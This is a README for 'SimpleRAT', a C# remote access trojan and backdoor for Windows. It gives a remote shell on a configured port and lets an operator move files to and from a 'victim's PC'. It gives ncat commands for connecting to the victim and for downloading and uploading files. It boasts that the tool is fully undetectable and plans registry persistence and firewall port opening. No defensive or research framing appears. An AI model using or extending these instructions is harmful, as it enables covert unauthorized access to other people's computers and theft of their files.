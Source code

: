 # SimpleRAT

Small RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe> -s <size of file (bytes)>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe -s 4096

4. Send file through netcat on main port of your RAT
Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![howto-upload](https://user-images.githubusercontent.com/53906830/109667659-a9304a80-7b70-11eb-879b-0230e0567f52.png)

Currently RAT is FUD as it is small and simple, without any specific features.

TODO/Plans: 

1. Merge JSON configuration into exe file, not to download anything additionally;
2. Create key in registry for self startup;
3. Open ports required for communications (for main connection, for file download, etc).
